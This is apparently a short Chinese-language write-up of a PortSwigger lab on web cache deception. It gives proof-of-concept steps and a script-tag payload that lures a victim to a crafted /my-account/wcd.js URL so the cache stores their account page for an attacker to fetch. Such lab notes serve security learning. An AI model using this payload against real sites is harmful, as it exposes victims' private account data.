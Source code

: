 将目标的敏感信息缓存到 URL 中.

## 1. PoC

1. 访问 https://example.com/my-account 可以得到敏感信息
2. 构造 URL https://example.com/my-account/test.js 并发送请求
   响应中包含 `X-Cache: miss` 和 `Cache-Control: max-age=30` 
3. 在 30 秒内重新发送请求
   响应中的 `X-Cache: miss` 变为 `X-Cache: hit` 

## 2. Exploit

1. 制作一个网站诱导目标访问

   ```
   <script>document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account/wcd.js"</script>
   ```

2. 访问后会缓存目标的敏感信息

   ```
   https://YOUR-LAB-ID.web-security-academy.net/my-account/wcd.js
   ```

3. 此时攻击者在 30 秒内从隐私浏览器中访问 URL 即可得到目标的敏感信息

---

- [Web cache deception](https://portswigger.net/web-security/web-cache-deception)

